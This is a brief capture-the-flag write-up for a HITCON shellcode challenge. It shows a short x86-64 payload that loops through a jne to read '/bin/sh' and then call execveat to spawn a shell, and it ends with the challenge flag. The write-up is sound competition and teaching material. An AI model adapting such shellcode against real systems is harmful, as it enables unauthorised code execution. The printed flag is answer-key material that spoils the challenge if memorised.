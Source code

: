 # Re: Easy to say
## Misc 255
## 30 solved

* disasm('\x75\xfa')
```asm
jne    0xfffffffffffffffc
```
* payload:
```asm
push rsp
pop rsi
xor edx,esp
syscall
jne    0xfffffffffffffffc
```
* First time read the `/bin/sh\x00` with padding to let length of it become 322 to the stack.
* After `jne` it continue at `xor edx,esp` with `rax = 322` , `rdx = 0` , `rsi = /bin/sh`.
* Syscall again -> execveat( 0 , "/bin/sh" , 0 , 0 ).
* hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}